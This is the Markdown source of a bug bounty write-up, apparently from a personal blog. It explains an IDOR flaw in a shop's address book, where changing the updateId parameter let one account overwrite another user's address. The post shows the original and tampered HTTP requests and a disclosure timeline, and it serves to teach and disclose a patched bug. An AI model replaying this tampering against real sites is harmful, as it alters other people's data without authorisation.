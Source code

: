 ```yaml
---
layout: post
title: How I was able to update any user's address
---
```

## Overview

It was the same program as [How I bypassed OTP mechanism used for updating Sensitive Information](https://vj0shii.github.io/bypass-otp-mechanism-on-updating-sensitive-information/)

## Scenario

There was a Address book section inside the application where the user can add a number of addresses for the product delivery<!--more-->, whenever a user adds a new address to his/her account there is a id alloted to that which was in simple numeric format, when a user updates the address, the id is sent with the request and the address is updated, `updateid` parameter in below request

**Address Update Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=1234567&submit_address=Save+Address&postcode=560025&firstname=Overtake&lastname=nk&mobile=1223456789&street=ZmtzbnZhag%3D%3D&street1=fjkwbjkwb&landmark=jbkjb&city=Bengaluru&region=Karnataka&country_id=IN
```

## Where is the problem in this flow

The problem occurs when the address is just updated on the basis of the ID number which can be tampered from client side, the application was not validating that if the user has access to update the address with that ID and trusts the user input and updates it

## Exploitation

I created two test accounts test1 & test2, let's say the address_id for user test1 is 1111111 & for user test2 it is 2222222, go to the address book in test1 account, clicked on edit button, filled the update form and clicked on Save then intercepted the request with burp suite

**Original Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=1111111&submit_address=Save+Address&postcode=123456&firstname=Overtake&lastname=Test&mobile=1223456789&street=Test&street1=Test&landmark=jbkjb&city=Test&region=Test&country_id=IN
```

I tampered the request and changed the  `updateid` parameter value to 2222222

**Modified Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=222222&submit_address=Save+Address&postcode=123456&firstname=Overtake&lastname=Test&mobile=1223456789&street=Test&street1=Test&landmark=jbkjb&city=Test&region=Test&country_id=IN
```

Then check the address in test2 Address book, the address of test2 account is updated

The bug was reported to the team and patched successfully

**Time Frame**

Initial Report: 26-May-2020

First Response: 27-May-2020

Patch Released: 2-June-2020
